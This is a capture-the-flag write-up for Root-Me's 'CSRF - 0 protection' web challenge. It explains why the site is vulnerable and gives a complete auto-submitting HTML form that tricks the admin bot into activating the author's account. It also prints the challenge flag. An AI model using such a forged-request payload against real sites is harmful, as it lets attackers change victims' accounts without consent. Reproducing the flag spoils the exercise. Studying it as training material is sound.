 # CSRF - 0 protection

**Point**: 35 Points 

## Solution:

This is a basic CSRF vulnerability. Get in the page, we see a form: 

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/159601753-f08b4ef7-75f1-43b3-8b28-3b0c8e0a5aea.png" ></p>

Before "Login", we have to register. Move to "Register" and create an account. For example, in my case, username is `khangtictoc` and password is `123`

Log in this account. Move to "Private" 

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/159602721-0d988354-cb0f-43bd-ba64-49e8a20feea5.png" ></p>


This section is for activated account. So we could reach that via sending a malicious HTML content to "Contact". 

But how do we achieve this action ? In "Profile", there's a **disable** checkbox and a button "Submit". 

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/159603119-dc64359d-bb4e-4fb7-bfbd-0114c02b2d94.png" ></p>

Enable the checkbox, in "Dev Tool" (F12) replace `disabled=""` with `checked`. Then click "Submit" button.

```html
<input type="checkbox" name="status" checked>
```

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/159604050-ebe23dce-fbd6-4f24-9377-006d78f291fb.png" ></p>

Only **admin** can do this action. Move to "Network" section, examine **Request Headers**:

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/159605145-6f1167f6-4b58-4b74-bac5-cba9448f3a1f.png" ></p>

This meet requirements for CSRF:
- Only **cookie** use to identify user
- **Origin** and **Referer**. We use form with POST request to send data, we can bypass this

We could make **administrator** do the activation for us. Constructing a auto-submit form. Copy the given form:

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/159605827-cfb26c6c-f62d-4864-a8d2-a7010b0ee6ee.png" ></p>

Changing `checkbox` as we've done previous. Create payload: 
- Make sure value in **input/type=text** is our **username** 
- Set an `id=form` for easy **querySelector**, there's 1 form so we can confidently name any id  
- Set `action` to "http://challenge01.root-me.org/web-client/ch22/?action=profile" for fixed path, we can "POST" data no matters the place(domain) we are
- Add **javascript code** for auto-submit.
- Put the payload in full **HTML format**. The payload 's contained in `<html></html>` and in `<body></body>`

Your email: khangtictoc@gmail.com (arbitrary string) <br>
Comment:

```html
<html>
  <body>
      <form action="http://challenge01.root-me.org/web-client/ch22/?action=profile" method="post" id="form" enctype="multipart/form-data">
		    <div class="form-group">
		    <label>Username:</label>
		    <input type="text" name="username" value="khangtictoc">
		    </div>
		    <br>		
		    <div class="form-group">
		    <label>Status:</label>
		    <input type="checkbox" name="status" checked>
		    </div>
		    <br>	
        <button type="submit">Submit</button>
	    </form>
    <script>document.getElementById("form").submit(); </script>
    <body>
</html>
```

Wait for a while for autbot's working. Direct to "Private" section:

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/159609361-00cc5132-5e08-4e9b-a98d-3f58e733f6ea.png" ></p>

Flag: **Csrf_Fr33style-L3v3l1!**
